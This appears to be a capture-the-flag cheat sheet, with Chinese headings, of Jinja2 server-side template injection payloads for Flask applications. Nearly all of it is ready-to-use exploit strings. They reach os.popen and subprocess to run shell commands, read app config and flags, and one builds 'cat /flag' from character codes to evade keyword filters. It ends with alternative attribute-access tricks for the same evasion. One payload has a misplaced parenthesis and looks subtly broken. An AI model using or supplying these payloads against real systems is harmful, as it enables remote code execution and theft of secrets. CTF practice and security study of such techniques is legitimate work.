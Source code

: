 # 示例
- ```python
  {{().__class__.__mro__[-1].__subclasses__([127].__init__.__globals__['sys'].modules['os'].popen('cmd').read()}}
  
  {{[].__class__.__mro__[1].__subclasses__()[237]('ls',shell=True,stdout=-1).communicate()[0]}}
  
  {{url_for.__globals__['current_app'].config.FLAG}}
  
  {{self.__dict__._TemplateReference__context.config}}
  
  {{(lipsum()|urlencode|first~dict(c=1)|join())*3%(97,98,99)}}
                                            
  ```
- ```python
  self|attr((lipsum()|string|list|pprint|list|string|safe|urlencode|first~dict(c=1)|join())*9%(95,95,99,108,97,115,115,95,95))|attr((lipsum()|string|list|pprint|list|string|safe|urlencode|first~dict(c=1)|join())*7%(95,95,109,114,111,95,95))|last|attr((lipsum()|string|list|pprint|list|string|safe|urlencode|first~dict(c=1)|join())*14%(95,95,115,117,98,99,108,97,115,115,101,115,95,95))()|attr((lipsum()|string|list|pprint|list|string|safe|urlencode|first~dict(c=1)|join())*11%(95,95,103,101,116,105,116,101,109,95,95))(349)((lipsum()|string|list|pprint|list|string|safe|urlencode|first~dict(c=1)|join())*9%(99,97,116,32,47,102,108,97,103),shell=True,stdout=-1)|attr((lipsum()|string|list|pprint|list|string|safe|urlencode|first~dict(c=1)|join())*11%(99,111,109,109,117,110,105,99,97,116,101))()
  ```
- # 访问属性和物品
	- `request.__class__`
	- `request["__class__"]`
	- `request|attr("__class__")`
	- `array[0]`
	- `array.pop(0)`
	- `array.__getitem__(2)`
-
